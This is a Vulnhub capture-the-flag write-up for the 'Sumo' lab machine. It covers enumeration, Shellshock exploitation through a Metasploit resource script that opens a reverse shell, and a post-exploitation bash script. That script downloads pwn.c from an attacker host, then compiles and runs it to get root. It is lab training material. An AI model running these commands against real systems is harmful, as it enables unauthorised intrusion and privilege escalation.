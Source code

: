 # Vulnhub Writeup #5: Sumo

## Key lessons learned:

- Looking only for 200s in gobuster caused me to miss CGI-Bin dir. 
- Not enabling recursion in your automations can make enumeration a pain

## Getting started


### nmap output
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.2.22 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
### **Enumerating found services**
Semi-Manual techniques
- Opened up ZAP and crawled host's port 80 HTTP server
  - found nothing of note 
- Nikto 
  - found this server was vuln to shellshock
  - was able to identify a directory /cgi-bin/test, as well as a file test.sh
    - I wasn'table to figure out a way to identify these files without Nikto, or what method Nikto used to find them, but it may be related to mod_negotiate being in use on the Apache server
- Gobuster 
  - Didn't get 200s for pages other than index.html with Seclists Discovery Wordlists

### **Exploiting found services**
Scanned for shellshock vulnerabilities in MSF. 
```
search shellshock
```
The ```apache_mod_cgi_bash_env_exec``` exploit was returned as an available msf module. Searchsploit could've been used here as well.


## **Post exploit enumeration**
- Checked running processes with ps -aux. Didn't find anything noteworthy. 
- Home directory was also quite bare. 
- Checked listening connections which didn't find anything noteworthy. 
- Checked distro/kernel version and compared it against searchsploit, which turned up an exploit
```text 
searchsploit ubuntu 3.2.0 
```

### MSF resource script for exploitation
```
sudo msfconsole
use exploit/multi/http/apache_mod_cgi_bash_env_exec
set PAYLOAD payload/generic/shell_reverse_tcp
set TARGETURI /cgi-bin/test/test.cgi
set RHOST 172.16.2.44
set LPORT 4444
set CVE CVE-2014-6278
exploit
sessions -i 1 -s /home/kali/targetz/sumo/sumo_post.sh
```

### sumo_post.sh (post exploitation script)
```bash
# sumo_post.sh 
# move here for dirty work
cd /tmp
R="172.16.2.45"
wget $R/pwn.c
chmod +x pwn.c
# fix path, gcc can't see ld binary from tmp 
export PATH=$PATH:/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin
/usr/bin/gcc pwn.c -O2 -o vnik
./vnik 0  # results in root shell
python -c 'import pty; pty.spawn("/bin/sh")'
```

## Other Lessons Learned
Encountered 
``` 
collect2: cannot find 'ld' when compiling in /tmp/
```

Solution at  [stackoverflow](https://stackoverflow.com/questions/35970824/gcc-collect2-fatal-error-cannot-find-ld)

Two Options:
1) modify path
eg. export PATH=$PATH:/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin 

 2) copy ld binary to tmp
